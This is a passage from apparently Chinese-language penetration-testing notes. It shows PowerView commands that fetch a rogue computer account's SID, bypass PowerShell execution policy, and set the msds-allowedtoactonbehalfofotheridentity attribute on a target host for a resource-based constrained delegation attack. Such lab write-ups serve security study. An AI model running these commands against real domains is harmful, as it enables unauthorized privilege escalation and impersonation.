 ### 获取SID

这里获取新加入的这太主机的SID值，这里获取到的SID值是：S-1-5-21-1695257952-3088263962-2055235443-1602

```
Set-ExecutionPolicy Bypass -Scope Process  ##如果出现报错，就执行这条命令，再执行下面的命令。
Import-Module .\PowerView.ps1
Get-NetComputer test1 -Properties objectsid
```

![image-20230807094314439](assets/image-20230807094314439-17299573280134.png)

### 修改委派属性

这里就是设置委派，修改DATA的属性，仔细看下面的命令，主要要修改的一个是DATA也就是你目标主机的机器名，还有一个就是SID值，这里将SID值修改为刚刚上面我们自己添加的那台主机的SID值。

```
Set-ExecutionPolicy Bypass -Scope Process
import-module .\powerview.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1602)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![image-20230807095021341](assets/image-20230807095021341-17299573280148.png)
